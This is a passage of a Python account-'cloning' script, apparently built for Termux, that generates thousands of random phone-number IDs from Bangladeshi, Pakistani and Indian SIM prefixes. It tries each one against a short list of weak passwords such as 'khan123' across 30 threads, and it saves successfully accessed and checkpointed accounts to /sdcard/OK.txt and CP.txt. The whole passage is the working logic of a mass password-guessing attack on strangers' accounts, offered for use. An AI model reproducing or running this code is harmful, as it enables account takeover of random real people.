         tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER NAME\033[1;91m                :\033[1;96m "+NameX)
        print(f"\033[1;97m[+]\033[1;92m SIM NETWORK CODE YOU PUT\033[1;91m : \033[1;96m"+code)
        print(f"\033[1;97m[+]\033[1;92m TOTAL IDZ\033[1;91m                : \033[1;96m["+tl+"] ")
        print('\033[1;97m[+]\033[1;92m PASSWORD METHOD\033[1;91m          : \033[1;96m4') 
        print('\033[1;97m====================================================') 
        print(' \033[1;32mPLEASE WAIT YOUR CLONING PROCESS HAS BEEN STARTED')
        print('\033[1;97m====================================================') 
        for love in user:
            uid = code+love
            pwx = [love,'khankhan','khan khan','khan123','khan12','khan1122']
            manshera.submit(freeq,uid,pwx,tl)
    print('')
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m CLONING COMPLETED\n\033[1;97m[√] \033[1;92mYOUR OK IDS \033[1;91m: \033[1;96m'+str(len(ok))+'\n\033[1;97m[+]\033[1;92m TOTAL CP IDS \033[1;91m: \033[1;96m'+str(len(cp)))
    print('\033[1;97m====================================================') 
    print('\033[1;97m[+]\033[1;92m OK IDS SAVE \033[1;91m: \033[1;96m/sdcard/OK.txt\n\033[1;97m[+]\033[1;92m CP IDS SAVE \033[1;91m: \033[1;96m/sdcard/CP.txt')
    input(f'\033[1;97m[+]\033[1;92m PRESS ENTER TO BACK MENU');os.system("clear");main()

def pass5():
    os.system("clear")
    print(logo)
    clear()
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"  \x1b[97m\033[37;41m[ S I M    N E T W O R K    C O D E    M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f"\t        \x1b[97m\033[37;41m[ EXAMPLE👇]\033[0;m")
    print('\033[1;97m====================================================') 
    print(f'\033[1;97m[!] \033[1;92mBD SIM CODES  \033[1;91m: \033[1;96m88017, 88019, 88018, 88016')
    print(f'\033[1;97m[!] \033[1;92mPAK SIM CODES \033[1;91m: \033[1;96m0303, 0302, 0301, 0305')
    print(f'\033[1;97m[!] \033[1;92mIND SIM CODES \033[1;91m: \033[1;96m91930, 91778, 91712 , 91902  ')
    print('\033[1;97m====================================================') 
    print(f"\x1b[97m\033[37;41m BEST CODE FOR PAK [0300 / 0302 / 0306 / 0349 /0315]\033[0;m")
    print('\033[1;97m====================================================') 
    code = input('\033[1;37m[\033[1;31m!\033[1;37m]\033[1;32m PUT SIM NETWORK CODE \033[1;37m: \033[1;36m')
    os.system("clear")
    print(logo)
    print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
    print('\033[1;97m====================================================') 
    print(f"          \x1b[97m\033[37;41m[ I D S    L I M I T   M E N U ]\033[0;m")
    print('\033[1;97m====================================================') 
    limit = int(input('\033[1;97m[+]\033[1;92m EXAMPLE \033[1;91m: \033[1;96m2000, 3000, 50000, 100000\n\033[1;97m====================================================\n\033[1;97m[+]\033[1;92m PUT IDS LIMIT \033[1;91m: \033[1;96m'))
    for nmbr in range(limit):
        nmp = ''.join(random.choice(string.digits) for _ in range(7))
        user.append(nmp)
    with ThreadPool(max_workers=30) as manshera:    
        clear()
        tl = str(len(user))
        print(f"\033[1;97mTODAY DATE \033[1;91m: \033[1;92m{ha}/{bu}/{ta} \033[1;93m=== \033[1;97mTIME \033[1;92m 🕛  "+str(a)+":"+str(lt()[4])+" "+ tag+" ")
        print('\033[1;97m====================================================') 
        print(f"\033[1;97m[+]\033[1;92m USER NAME\033[1;91m                :\033[1;96m "+NameX)